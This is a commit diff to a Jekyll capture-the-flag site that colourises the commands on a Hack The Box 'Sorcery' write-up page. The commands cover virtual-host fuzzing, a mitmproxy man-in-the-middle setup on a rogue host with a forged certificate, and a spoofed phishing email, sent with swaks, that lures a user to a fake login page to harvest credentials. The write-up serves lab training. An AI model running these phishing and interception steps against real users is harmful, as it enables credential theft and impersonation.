

Before and after one commit to Respilot/writeup, a Jekyll site: the page built from _writeups/sorcery.md, in a window 1280 px wide. Shown: the top 845 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
style: colorize sorcery commands

````diff
--- a/_writeups/sorcery.md
+++ b/_writeups/sorcery.md
@@ -6,42 +6,30 @@ platform: Hack The Box
 
 Add the IPs to `/etc/hosts`:
 
-```
-10.10.11.73 sorcery.htb git.sorcery.htb
-10.10.14.40 pwn.sorcery.htb
-```
+<pre><code><span style="color:#ffffff">10.10.11.73 sorcery.htb git.sorcery.htb
+10.10.14.40 pwn.sorcery.htb</span></code></pre>
 
 Visit [https://sorcery.htb](https://sorcery.htb) and enumerate the repository:
 
-```
-git clone https://git.sorcery.htb/nicole_sullivan/infrastructure.git
-```
+<pre><code><span style="color:#00ff00">git</span><span style="color:#ffffff"> clone https://git.sorcery.htb/nicole_sullivan/infrastructure.git</span></code></pre>
 
 Enumerate virtual hosts with `ffuf`:
 
-```
-ffuf -w /usr/share/payloads/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u https://sorcery.htb -H "Host: FUZZ.sorcery.htb" -mc 200
-```
+<pre><code><span style="color:#00ff00">ffuf</span><span style="color:#ffffff"> -w /usr/share/payloads/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u https://sorcery.htb -H </span><span style="color:#ffff00">"Host: FUZZ.sorcery.htb"</span><span style="color:#ffffff"> -mc 200</span></code></pre>
 
 This reveals `git.sorcery.htb`; add it to `/etc/hosts` and create an account on the site, then log in.
 
 Capture traffic with a rogue host and `mitmproxy`:
 
-```
-sudo mitmproxy --mode reverse:https://git.sorcery.htb --certs pwn.sorcery.htb.pem -k -p 443
-```
+<pre><code><span style="color:#00ff00">sudo</span><span style="color:#ffffff"> </span><span style="color:#00ff00">mitmproxy</span><span style="color:#ffffff"> --mode reverse:https://git.sorcery.htb --certs pwn.sorcery.htb.pem -k -p 443</span></code></pre>
 
 Send a phishing email to capture credentials:
 
-```
-proxychains4 -f /etc/proxychains4.conf swaks --to tom_summers@sorcery.htb --from nicole_sullivan@sorcery.htb --server 172.19.0.10 --port 1025 --data "Subject: Security Alert\n\nPlease verify your account at https://pwn.sorcery.htb/user/login"
-```
+<pre><code><span style="color:#00ff00">proxychains4</span><span style="color:#ffffff"> -f /etc/proxychains4.conf </span><span style="color:#00ff00">swaks</span><span style="color:#ffffff"> --to tom_summers@sorcery.htb --from nicole_sullivan@sorcery.htb --server 172.19.0.10 --port 1025 --data </span><span style="color:#ffff00">"Subject: Security Alert\n\nPlease verify your account at https://pwn.sorcery.htb/user/login"</span></code></pre>
 
 Extract the captured credentials from the proxied session:
 
-```
-magick xwd:Xvfb_screen0 credentials.png
-open credentials.png
-```
+<pre><code><span style="color:#00ff00">magick</span><span style="color:#ffffff"> xwd:Xvfb_screen0 credentials.png
+</span><span style="color:#00ff00">open</span><span style="color:#ffffff"> credentials.png</span></code></pre>
 
 *Screenshots omitted.*
````
